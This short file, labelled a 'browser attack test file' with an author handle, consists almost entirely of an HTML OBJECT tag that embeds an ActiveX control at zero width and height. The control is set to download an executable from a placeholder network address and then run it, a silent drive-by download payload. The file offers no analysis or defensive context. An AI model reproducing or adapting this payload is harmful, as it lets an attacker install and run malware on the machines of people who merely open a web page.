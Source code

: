 # Browser attack test file.
# author :  weibo@flagellantX
<OBJECT ID="Playing1" WIDTH="0" HEIGHT="0" CLASSID="CLSID:c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61" CODEBASE="Playing.ISO#Version=1,0,0,1"><PARAM NAME="propProgressbackground" VALUE="#bccee8"><PARAM NAME="propTextbackground" VALUE="#f7f8fc"><PARAM NAME="propBarColor" VALUE="#df0203"><PARAM NAME="propTextColor" VALUE="#000000"><PARAM NAME="propWidth" VALUE="0"><PARAM NAME="propHeight" VALUE="0"><PARAM NAME="propDownloadUrl" VALUE="http://网络地址/可执行文件"><PARAM NAME="propPostdownloadAction" VALUE="run"><PARAM NAME="propInstallCompleteUrl" VALUE=""><PARAM NAME="propbrowserRedirectUrl" VALUE=""><PARAM NAME="propVerbose" VALUE="0"><PARAM NAME="propInterrupt" VALUE="0">
